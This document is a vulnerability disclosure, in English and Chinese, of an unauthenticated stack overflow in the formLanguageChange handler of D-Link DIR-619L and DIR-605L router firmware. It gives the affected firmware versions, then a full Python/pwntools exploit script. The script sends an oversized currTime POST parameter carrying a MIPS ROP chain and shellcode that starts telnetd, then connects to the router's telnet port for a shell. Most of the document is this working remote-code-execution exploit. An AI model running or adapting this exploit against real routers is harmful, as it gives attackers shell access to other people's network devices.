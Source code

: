 ``` 
Dlink model DIR-619L, the latest firmware 2.06B1, There is a stack overflow vulnerability that does not require authentication
This can cause remote code execution
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function: formLanguageChange
The attacker calls this function by sending a post packet to the http://ip/goform/formLanguageChange page.
Post parameter currTime length is not verified。After using sprintf directly，Caused a stack overflow。
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/
``` 
post package

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/5.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/6.png)

Dlink型号DIR-619L最新固件2.06B1上存在不需要验证身份的栈缓冲区溢出漏洞。
可造成远程任意代码执行。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
漏洞位置发生在/bin/boa程序的formLanguageChange函数。
攻击者通过向http://ip/goform/formLangageChange页面发送post包调用此函数。
Post参数currTime长度未经校验使用sprintf写入栈上。并在之后websRedirect页面跳转函数中通过jr ra。控制代码流程。
 

将shell code存放在栈上
通过rop跳转执行sleep函数后跳转至shellcode。执行telnetd程序完成利用。
型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/
 

DIR-619l.py
``` python
import requests
import sys
import struct
from pwn import *
def inter():
	p=remote('192.168.0.1',23)
	p.interactive()
def syscmd1(a):
	p=remote('192.168.0.1',80)
	z=len(a)
	payload=''
	payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Connection: keep-alive\r\n'
	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept: */*\r\n'
	payload+='User-Agent: python-requests/2.18.4\r\n'
	payload+='Content-Length: '+str(z+9)+'\r\n'
	payload+='Content-Type: application/x-www-form-urlencoded\r\n'
	payload+='\r\n'
	payload+='currTime='
	payload+=a
	p.send(payload)
	p.recvuntil('</html>')
	p.close()

base1=0x2aba9500-0x22500
###shellcode
shellcode =''
shellcode += struct.pack(">I",0x24060666)
shellcode += struct.pack(">I",0x04d0ffff)
shellcode += struct.pack(">I",0x2806ffff)
shellcode += struct.pack(">I",0x27bdffe0)
shellcode += struct.pack(">I",0x27e41005)
shellcode += struct.pack(">I",0x2484f01f)
shellcode += struct.pack(">I",0xafa4ffe8)
shellcode += struct.pack(">I",0xafa0ffec)
shellcode += struct.pack(">I",0x27a5ffe8)
shellcode += struct.pack(">I",0x24020fab)
shellcode += struct.pack(">I",0x0101010c)
shellcode += 'aaaa'+'/usr/bin/telnetd'+chr(0)
s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794) ### rop2
s2=struct.pack(">I",base1+0x24b70)
s3=struct.pack(">I",base1+0x2bdac)###rop3
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1
payload1+='a'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x24d70)  ###sleep
payload1+='a'*0x14
payload1+=struct.pack(">I",0x24910101)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop4
payload1+='a'*0x20+shellcode
if __name__ == "__main__":
	syscmd1(payload1)	
	inter()
``` 
